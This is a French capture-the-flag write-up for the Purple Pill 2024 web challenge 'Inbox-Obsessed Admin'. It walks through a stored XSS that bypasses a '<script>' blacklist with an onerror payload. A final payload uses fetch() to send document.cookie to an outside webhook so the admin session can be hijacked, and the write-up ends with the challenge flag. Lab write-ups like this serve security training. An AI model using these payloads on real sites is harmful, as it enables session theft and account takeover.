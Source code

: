 ```yaml
---
title: Inbox-Obsessed Admin
categories: [Purple_Pill_2024, Web]
tags: [web, XSS, sécurité]
image: '/assets/images/Purple_Pill_2024/logo.png'
---
```


# 𝄞 Introduction

![Intro](/assets/images/Purple_Pill_2024/Web/Inbox_Obsessed_Admin/intro.webp)

L’objectif de ce challenge est de compromettre le compte administrateur en exploitant une faille XSS pour lui voler son cookie de session, permettant ainsi d’obtenir le flag.

## 𝄞 Solution

![Accueil](/assets/images/Purple_Pill_2024/Web/Inbox_Obsessed_Admin/ladding_page.webp)

La page d’accueil affiche une interface assez simple, proposant deux fonctionnalités principales :
- Boîte de réception
- Envoi de messages

### 𝄞𝄞 Boîte de réception

Nous avons la possibilité d’envoyer des messages aux utilisateurs nommés **"user"** et **"admin"**.

![Send_user](/assets/images/Purple_Pill_2024/Web/Inbox_Obsessed_Admin/send_user.webp)  
![Send_admin](/assets/images/Purple_Pill_2024/Web/Inbox_Obsessed_Admin/send_admin.webp)

L’idée ici est de tenter une injection XSS dans le message pour voler le cookie de session de l’utilisateur qui ouvrira l’e-mail.

### 𝄞𝄞 Envoyer un message

Pour tester cette hypothèse, nous essayons d’abord avec un payload simple :

```html
<script>alert("fxoverflow")</script>
``` 

Malheureusement, le mot-clé `<script>` est bloqué par une blacklist.

![blacklist](/assets/images/Purple_Pill_2024/Web/Inbox_Obsessed_Admin/blacklist.webp)


Nous devons donc trouver une alternative sans utiliser cette balise.

Nous essayons le payload suivant :

```html
<image/src/onerror=prompt(8)>
```  

Celui-ci fonctionne, ce qui confirme que l’application est bien vulnérable à une attaque XSS, nous permettant ainsi de capturer le cookie de l’utilisateur qui consulte l’e-mail. Pour valider le fonctionnement, nous envoyons un message contenant cette XSS à notre propre utilisateur afin de vérifier que le cookie est récupéré lors de la consultation du message.

**Payload final**  

Nous utilisons ce payload pour exfiltrer le cookie :

```html
<img src="q" onerror="fetch('https://webhook-test.com/7136433249cbc8fd15442c54de08e7d6', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
})">
```

En interceptant la requête d’envoi de message avec **Burp Suite**, nous observons deux paramètres dans la requête POST :


![Burp](/assets/images/Purple_Pill_2024/Web/Inbox_Obsessed_Admin/burp1.webp)

**recipient**  
**message**

Après l’envoi, aucun résultat... Ce n’est qu’après quelques minutes de réflexion que nous réalisons que le message était envoyé à l’utilisateur "**user**", alors que nous sommes l’utilisateur "**2**".  

Nous modifions donc la valeur du paramètre **recipient** en **2** pour correspondre à notre propre compte.

![Burp2](/assets/images/Purple_Pill_2024/Web/Inbox_Obsessed_Admin/burp2.webp)

Dès lors, en consultant notre boîte de réception, nous constatons que le message piégé est bien présent et que l’attaque XSS est activée sans alerte pour l’utilisateur.

![xss](/assets/images/Purple_Pill_2024/Web/Inbox_Obsessed_Admin/proof_xss.webp)

En ouvrant l’e-mail, nous capturons le cookie de session de notre utilisateur sur le site :

![webhook](/assets/images/Purple_Pill_2024/Web/Inbox_Obsessed_Admin/webhook.webp)

Pour finaliser l’attaque, il suffit de répéter ce processus pour l’utilisateur admin, en profitant du bot chargé de lire les e-mails du compte administrateur. Cela nous permet de récupérer le cookie administrateur et de nous connecter en tant qu’administrateur.


𝄞 FLAG : `PPC2024{4K7Uzpxw8V82Nn}` 𝄞
